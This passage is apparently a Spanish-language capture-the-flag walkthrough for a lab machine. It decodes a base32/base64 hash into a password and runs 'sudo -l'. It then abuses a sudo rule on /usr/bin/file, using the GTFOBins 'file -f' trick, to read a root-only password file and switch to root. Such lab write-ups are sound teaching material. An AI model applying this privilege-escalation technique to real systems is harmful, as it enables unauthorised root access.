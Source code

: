 hay un hash el cual nos puede dar información: podemos usar AI para decodificar o usaremos :

```bash
macarena@0845696b7b24:/home/secret$ cat hash | base32 --decode | base64 --decode
supersecurepasswordmacarena@0845696b7b24:/home/secret$ 

```

Vamos a ir atrás unos directorios y enlistamos y vemos que hay un directorio opt
```bash
macarena@0845696b7b24:/home/secret$ cd ..
macarena@0845696b7b24:/home$ cd ..
macarena@0845696b7b24:/$ cd ..
macarena@0845696b7b24:/$ ls
bin  boot  dev  etc  home  lib  lib.usr-is-merged  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
macarena@0845696b7b24:/$ cd opt
macarena@0845696b7b24:/opt$ ls
password.txt
macarena@0845696b7b24:/opt$ cat password.txt 
cat: password.txt: Permission denied

macarena@0845696b7b24:/opt$ ls -l
total 4
-rw------- 1 root root 16 Aug 19  2024 password.txt

```

Observamos que solo un root puede acceder y leer los demás usuarios no tienen acceso.


intentamos hacernos root con sudo -l, nos pedirá una contraseña que será supersecurepassword

```bash
macarena@0845696b7b24:/opt$ sudo -l
[sudo] password for macarena: 
Sorry, try again.
[sudo] password for macarena: 
Matching Defaults entries for macarena on 0845696b7b24:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User macarena may run the following commands on 0845696b7b24:
    (ALL : ALL) /usr/bin/file

```

Comprobando este binario en GTFObins, se puede comprobar que existe una manera probada de aprovechar este binario para realizar operaciones aprovechando los privilegios asignados. En este caso, **es posible leer cualquier archivo del sistema gracias a esta configuración**.

usaremos LFile debido a que necesitaremos leer el archivo y

```bash
macarena@0845696b7b24:/opt$ LFILE=/opt/password.txt
sudo file -f $LFILE
root:rooteable2: cannot open `root:rooteable2' (No such file or directory)
macarena@0845696b7b24:/opt$ su -root
su: invalid option -- 'r'
Try 'su --help' for more information.
macarena@0845696b7b24:/opt$ su - root
Password: 
root@0845696b7b24:~# whoami
root

```
